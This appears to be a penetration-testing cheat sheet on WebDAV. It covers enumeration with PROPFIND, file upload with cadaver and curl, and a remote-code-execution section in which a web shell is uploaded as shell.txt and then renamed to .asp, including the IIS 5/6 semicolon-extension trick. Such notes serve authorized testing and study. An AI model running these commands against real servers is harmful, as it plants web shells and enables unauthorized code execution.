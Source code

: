 # WebDAV

## Enumeration

Send a PROPFIND request to the server. We expect the server to answer in one of the following ways:

* `HTTP 207: Multi-Status`: WebDAV is active and the requested path is valid
* `HTTP 403: Forbidden`: Authentication required to perform the operation
* `HTTP 405: Method Not Allowed`: WebDAV is active and the requested folder does not exist. This code is usually returned by Linux machines running Apache.
* `HTTP 501: Not Supported`: WebDAV is not active

```
curl -vX PROPFIND --header 'Depth:0' '<host>/<folder>'
curl -vX PROPFIND --header 'Depth:0' '<host>/<folder>' --user '<user>:<pass>' --basic
```

## File upload

### Cadaver

Access the host.

```
cadaver <host>
```

Cadaver will automatically prompt for credentials when performing restricted operations.

```
ls                        
cd <folder>    
cat <filename>           
put <file>
get <file>
mput <files>   #multiple file upload. Supports wildcards
mget <files>   #multiple file download. Supports wildcards
move <filename> <folder>
copy <filename> <folder>
delete <filename>
```

### Manual

File upload functionality may require valid credentials.

```
curl -T '<file>' '<url>'    #anonymous
curl -T '<file>' '<url>' -u <user>:<pass>
```

### RCE

Bypass extension filter by uploading a shell with a modified extension (such as .txt) and then use the MOVE command to rename it once uploaded to the server.&#x20;

```
curl -X MOVE --header 'Destination:http://<host>/shell.asp' '<host>/shell.txt'
curl -X COPY --header 'Destination:http://<host>/shell.asp' '<host>/shell.txt'
```

There is a vulnerability on IIS 5 and 6 where if a file is renamed to something like `.asp;txt` WebDAV will execute its content despite showing an error message.

```
curl -X MOVE --header 'Destination:http://<host>/shell.asp;txt' '<host>/shell.txt'
curl -X MOVE --header 'Destination:http://<host>/shell.asp%3b.txt' '<host>/shell.txt'
```
